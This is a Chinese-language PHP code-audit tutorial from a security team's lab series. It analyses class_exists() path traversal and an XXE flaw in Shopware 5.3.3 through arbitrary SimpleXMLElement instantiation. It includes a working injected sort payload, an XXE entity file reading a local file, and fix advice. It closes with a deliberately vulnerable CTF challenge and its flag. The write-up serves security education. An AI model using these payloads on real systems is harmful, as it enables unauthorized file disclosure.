 本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 **PHP-Audit-Labs** 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第3篇** 代码审计文章：

## Day 3 - Snow Flake

题目叫做雪花，代码如下：

![1](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/1.png)

**漏洞解析** ：

这段代码中存在两个安全漏洞。第一个是文件包含漏洞，上图第8行中使用了 **class_exists()** 函数来判断用户传过来的控制器是否存在，默认情况下，如果程序存在 **__autoload** 函数，那么在使用 **class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件内容，我们来看一下PHP手册对 **class_exists()** 函数的定义：

>[ class_exists ](http://php.net/manual/zh/function.class-exists.php) ：(PHP 4, PHP 5, PHP 7)
>
>**功能** ：检查类是否已定义
>
>**定义** ： `bool class_exists ( string $class_name[, bool $autoload = true ] )` 
>
>**$class_name** 为类的名字，在匹配的时候不区分大小写。默认情况下 **$autoload** 为 **true** ，当 **$autoload** 为 **true** 时，会自动加载本程序中的 **__autoload** 函数；当 **$autoload** 为 **false** 时，则不调用 **__autoload** 函数。

我们再来说说第二个漏洞。在上图第9行中，我们发现实例化类的类名和传入类的参数均在用户的控制之下。攻击者可以通过该漏洞，调用PHP代码库的任意构造函数。即使代码本身不包含易受攻击的构造函数，我们也可以使用PHP的内置类 **SimpleXMLElement** 来进行 **XXE** 攻击，进而读取目标文件的内容，甚至命令执行（前提是安装了PHP拓展插件expect），我们来看一下PHP手册对 **SimpleXMLElement** 类的定义：

>[SimpleXMLElement](http://php.net/manual/zh/class.simplexmlelement.php) ：(PHP 5, PHP 7)
>
>**功能** ：用来表示XML文档中的元素，为PHP的内置类。

关于 **SimpleXMLElement** 导致的XXE攻击，下面再给出一个demo案例，方便大家理解：

![2](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/2.png)

## 实例分析

本次实例分析，我们选取的是 **Shopware 5.3.3** 版本，对 **SimpleXMLElement** 类导致的 **XXE漏洞** 进行分析，而 **class_exists()** 函数，我们将会在本次给出的CTF题目中深入讨论。我们来看一下本次漏洞的文件，在 **engine\Shopware\Controllers\Backend\ProductStream.php** 文件中有一个 **loadPreviewAction** 方法，其作用是用来预览产品流的详细信息，具体代码如下：

![3](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/3.png)

该方法接收从用户传来的参数 **sort** ，然后传入 **Repository** 类的 **unserialize** 方法（如上图第11-14行代码），我们跟进 **Repository** 类，查看 **unserialize** 方法的实现。该方法我们可以在 **engine\Shopware\Components\ProductStream\Repository.php** 文件中找到，代码如下：

![4](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/4.png)

可以看到 **Repository** 类的 **unserialize** 方法，调用的是 **LogawareReflectionHelper** 类的 **unserialize** 方法（如上图第5行代码），该方法我们可以在 **engine\Shopware\Components\LogawareReflectionHelper.php** 文件中找到，具体代码如下：

![5](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/5.png)

这里的 **$serialized** 就是我们刚刚传入的 **sort** （上图第3行），程序分别从 **sort** 中提取出值赋给 **$className** 和 **$arguments** 变量，然后这两个变量被传入 **ReflectionHelper** 类的 **createInstanceFromNamedArguments** 方法。该方法位于 **engine\Shopware\Components\ReflectionHelper.php** 文件，具体代码如下：

![6](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/6.png)

这里我们关注 **第6行** 代码，这里创建了一个反射类，而类的名称就是从 **$sort** 变量来的，可被用户控制利用。继续往下看，在代码第28行处用 **$newParams** 作为参数，创建一个新的实例对象。而这里的  **$newParams** 是从 **$arguments[\$paramName]** 中取值的， **$arguments** 又是我们可以控制的，因为也是从 **$sort** 变量来，所以我们可以通过这里来实例化一个 **SimpleXMLElement** 类对象，形成一个XXE漏洞。下面，我们来看看具体如何利用这个漏洞。

## 漏洞利用

首先，我们需要登录后台，找到调用 **loadPreviewAction** 接口的位置，发现其调用位置如下：

![7](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/7.png)

当我们点击 **Refresh preview** 按钮时，就会调用 **loadPreviewAction** 方法，用BurpSuite抓到包如下：

```http
GET /shopware520/backend/ProductStream/loadPreview?_dc=1530963660916&sort={"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}&conditions={}&shopId=1&currencyId=1&customerGroupKey=EK&page=1&start=0&limit=2 HTTP/1.1
Host: localhost
X-CSRF-Token: IKiwilE7pecuIUmEAJigyg6fVXY6vR
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: */*
Referer: http://localhost/shopware520/backend/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHOPWAREBACKEND=78ghtddjn8n8efpv1cudj6eao0; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; goods[cart]=180615151154565652; XDEBUG_SESSION=PHPSTORM
Connection: close
```

我们可以看到 **sort** 值为 `{"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}` ,于是我们按照其格式构造payload： `{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}` ，关于payload的含义，可以看看 **SimpleXMLElement** 类的 **__construct** 函数定义，具体点 [这里](http://php.net/manual/zh/simplexmlelement.construct.php) 

```php
final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
```

笔者所用的xxe.xml内容如下：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE ANY [ 
     <!ENTITY xxe SYSTEM "file:///C:/phpStudy/PHPTutorial/WWW/flag.txt">
]>
<x>&xxe;</x>
```

我们发送payload，并用xdebug调试程序，最后程序将我们读取的值存储在 **$conditions** 变量中，如下图所示：

![8](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/8.png)

## 修复建议

关于PHP中XXE漏洞的修复，我们可以过滤关键词，如： **ENTITY** 、 **SYSTEM** 等，另外，我们还可以通过禁止加载XML实体对象的方式，来防止XXE漏洞（如下图第2行代码），具体代码如下：

![9](CTF%20总结/PHP-Audit-Labs/Part1/Day3/files/9.png)

## 结语

看完了上述分析，不知道大家是否对 **XXE攻击** 有了更加深入的理解，文中用到的CMS可以从 [这里](http://releases.s3.shopware.com.s3.amazonaws.com/install_5.3.3_0e50204087219ada9cdd9a74cd17cbb264e8c0a4.zip?_ga=2.21910011.1134495119.1530714243-2059409569.1530714243) 下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day3** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：

```php
// index.php
<?php
class NotFound{
    function __construct()
    {
        die('404');
    }
}
spl_autoload_register(
	function ($class){
		new NotFound();
	}
);
$classname = isset($_GET['name']) ? $_GET['name'] : null;
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
	$newclass = new $classname($param,$param2);
	var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```

```php
// f1agi3hEre.php
<?php
$flag = "HRCTF{X33_W1tH_S1mpl3Xml3l3m3nt}";
?>
```

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！

## 相关文章

[Shopware 5.3.3: PHP Object Instantiation to Blind XXE](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)
